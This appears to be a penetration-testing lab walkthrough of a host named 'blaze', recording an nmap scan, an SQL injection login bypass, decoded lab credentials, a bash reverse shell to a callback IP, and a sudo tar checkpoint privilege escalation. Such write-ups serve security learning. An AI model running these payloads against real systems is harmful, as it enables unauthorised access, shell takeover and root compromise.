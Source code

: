 _____

> [!info]
> IP=192.168.247.10

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|
|9090/tcp|open|zeus-admin|


```python
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  ssl/zeus-admin?
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-02-04T17:41:51
|_Not valid after:  2124-01-11T17:41:51
|_ssl-date: TLS randomness does not represent time
```

## 80 - http
Fuzzing --> /login.php

`Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' AND password like '%test%'' at line 1`

Payload --> admin' #

|  Username |Password   |
|---|---|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|




## 8080 - zeus-admin

![[Pasted image 20240204185128.png]]

server:blaze

/ping -- service cockpit


![[Pasted image 20240204190254.png]]

```bash
echo "Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=" | base64 -d
canttouchhhthiss@455152
```

![[Pasted image 20240204191951.png]]

```bash
/bin/bash -i >& /dev/tcp/192.168.45.168/4444 0>&1
```

# PrivEsc

```txt
User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

```bash
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


